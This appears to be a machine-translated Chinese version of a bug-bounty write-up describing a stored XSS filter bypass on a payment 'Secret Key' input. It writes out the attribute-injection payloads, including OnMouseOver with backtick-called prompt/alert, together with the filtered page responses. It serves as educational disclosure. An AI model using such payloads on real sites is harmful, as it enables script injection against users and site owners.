

# 一个存储的 XSS 旁路的故事

> 原文：<https://infosecwriteups.com/story-of-a-stored-xss-bypass-26e6659f807b?source=collection_archive---------0----------------------->

嗨，读者们，

我是来自孟加拉国的网络安全研究员。这是我第一次写文章，我也不擅长 XSS，所以原谅所有的错误。

最近我测试了一个私人网站，用户可以在里面添加他们的个人信息。我注意到那里有一个名为 **Secret Key** 的输入，它允许用户处理支付并将交易信息存储到应用程序中。

所以我输入一个正常的有效载荷:-

> ”>

它被过滤了，页面来源是这样的:-

```
<input type="text" id="****" name="****" value="">&lt;img img" class="form-control" rel="gp" data-size="20" data-character-set="a-z,A-Z,0-9">
```

所以从源头上我了解到:-

> 1.**")**和**大于号(> )** 未被正确过滤。
> 
> 2.恶意标签正在被过滤。为此 **< img >** 变成了 **img img**

所以我有两种可能方法来执行 JavaScript。**第一个**不知何故绕过了**小于(< )** 过滤器，第**第二个**添加了一个恶意的 **HTML 属性**来执行 JavaScript。我尝试了很多方法来绕过**小于(< )** 字符，但就是做不到。所以我用第二种方法添加了一个恶意的 **HTML 属性**。所以我输入了下面的有效载荷:-

> " OnMouseOver=prompt(1)

**回应为:-**

```
<input type="text" id="****" name="****" value="" OnMouseOver=prompt&#40;" class="form-control" rel="gp" data-size="20" data-character-set="a-z,A-Z,0-9">
```

所以我可以添加一个 HTML 属性，但是括号被正确过滤了。所以我输入了下面的有效载荷:-

> " OnMouseOver = prompt` 1

**回应为:-**

```
<input type="text" id="****" name="****" value="" OnMouseOver=prompt`1`" class="form-control" rel="gp" data-size="20" data-character-set="a-z,A-Z,0-9">
```

但是代码没有执行。仔细看看，有效载荷只需要一个**🤔🤔🤔 :-**

> **" OnMouseOver = " prompt` 1**

****回应为:-****

```
<input type="text" id="ipn_secret_keygen" name="ipn_secret_keygen" value=""OnMouseOver="alert`1`" class="form-control" rel="gp" data-size="20" data-character-set="a-z,A-Z,0-9">
```

**看起来不错。现在我把鼠标指针放在输入上，而 **OnMouseOver** 事件执行了 XSS 弹出窗口🤩🤩🤩**

****

**XSS 被处决了。**

**感谢阅读。希望有时间再写一些帖子。**

**在脸书上找到我:-**

**[](http://facebook.com/prial261) [## 普里阿勒·伊斯兰·汗

### Prial Islam Khan 在脸书。加入脸书，与 Prial Islam Khan 和您可能认识的其他人联系。脸书给…

facebook.com](http://facebook.com/prial261)**